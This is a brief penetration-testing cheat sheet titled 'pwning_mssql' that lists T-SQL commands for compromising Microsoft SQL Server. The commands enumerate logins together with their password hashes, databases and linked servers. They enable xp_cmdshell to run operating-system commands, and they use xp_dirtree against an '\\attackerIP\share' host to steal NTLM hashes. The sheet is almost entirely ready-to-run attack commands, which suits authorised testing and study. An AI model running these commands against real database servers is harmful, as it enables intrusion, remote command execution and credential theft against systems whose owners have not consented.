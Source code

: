 # pwning_mssql

#resources
https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server
https://book.hacktricks.xyz/windows/active-directory-methodology/mssql-trusted-links


#get SQL version
select @@version

#find out who we are
select suser_name();
select name,sysadmin from syslogins;

#list all users
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;

#list all databases
SELECT name FROM master.sys.databases;
#change database
use Database_Name;

#list advanced options
sp_configure 'show advanced options', '1'
RECONFIGURE
sp_configure 'xp_cmdshell', '1' 
RECONFIGURE
#check what account is being used
EXEC master..xp_cmdshell 'whoami'

#steal hashes using xp_dirtree
xp_dirtree '\\attackerIP\share'
exec master.dbo.xp_dirtree '\\attackerIP\share'

#list all tables

SELECT * FROM DATABASE_NAME.INFORMATION_SCHEMA.TABLES;

#list all servers
select srvname, isremote from sysservers;

